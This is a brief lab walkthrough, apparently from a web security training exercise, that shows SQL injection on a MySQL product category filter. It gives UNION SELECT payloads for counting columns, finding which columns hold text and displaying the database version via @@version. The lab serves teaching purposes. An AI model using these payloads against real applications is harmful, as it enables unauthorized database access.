 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft.

- This lab contains a SQL injection vulnerability in the product category filter.
- You can use a UNION attack to retrieve the results from an injected query.

# To solve the lab, display the database version string.
```Make the database retrieve the string: '8.0.39-0ubuntu0.20.04.1'```

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL#
```

# check which column contain text
```
'+UNION+SELECT+NULL,'abc'--
or
'UNION SELECT NULL,'def'--
'UNION SELECT 'abc',NULL--
'UNION SELECT 'abc','def'--
```
- BOth column contains text.

# Now display the database version
```
category=Pets' UNION SELECT @@version,'abc'#
```
- This will display database version.